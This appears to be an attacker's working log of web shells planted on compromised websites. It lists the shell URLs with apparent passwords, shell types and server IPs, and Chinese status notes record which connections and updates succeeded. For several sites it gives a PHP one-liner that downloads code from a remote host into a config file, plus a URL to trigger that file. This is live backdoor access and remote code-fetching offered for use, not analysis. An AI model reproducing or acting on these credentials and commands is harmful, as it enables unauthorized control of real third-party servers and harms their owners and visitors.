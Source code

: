 http://szaipets.com/static/upload/image/20231030/13.php |big |wso | 43.154.53.8
http://www.szaipets.com/static/upload/image/20240109/13.php |wso |wso | 43.154.53.8
http://x249.www.pusite.icu/static/upload/image/20231010/13.php |mmk123 |rsa | 120.55.79.114
http://www.demigodjewelry.com/dd.php |dd |大马 | 47.244.172.140

http://kelaiyiyx.com/static/upload/image/20231114/m22.php |mmk123 |  8.217.173.192
代码更新：0608 ✅
http://kelaiyiyx.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://kelaiyiyx.com/config/httpd.php?d=up

https://warlzy.com/static/upload/image/20230607/m22.php |mmk123 |  39.99.163.186 创建文件失败

http://k464.yuean.top/static/upload/image/20231013/m22.php |mmk123 |  154.221.17.137
代码更新：0608 失败  500
http://k464.yuean.top/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://k464.yuean.top/config/httpd.php?d=up

http://bj.ehot.vip//skin/images/m22.php |mmk123 |  103.56.113.2
代码更新：0608 失败  500
http://bj.ehot.vip/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://bj.ehot.vip/config/httpd.php?d=up

http://www.gslyzm.cn/static/upload/image/20230412/13.php |mmk123 |rsa | 211.149.226.215  连接失败

https://www.cangpaige.com/static/upload/image/20220406/m22.php |mmk123 |  47.97.90.35
代码更新：0608 ✅
https://www.cangpaige.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.cangpaige.com/config/httpd.php?d=up

http://haoshen.860318.cn/static/upload/image/20240131/m22.php |mmk123 |  182.92.203.39
代码更新：0608   该网页无法正常运作
http://haoshen.860318.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://haoshen.860318.cn/config/httpd.php?d=up

https://iot.xinbenkj.com/dd.php |dd |big | 106.55.241.55 连接失败

http://aixuyang.com/static/upload/image/20240301/m22.php |mmk123 |  156.247.13.175
代码更新：0608 ✅
http://aixuyang.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://aixuyang.com/config/httpd.php?d=up
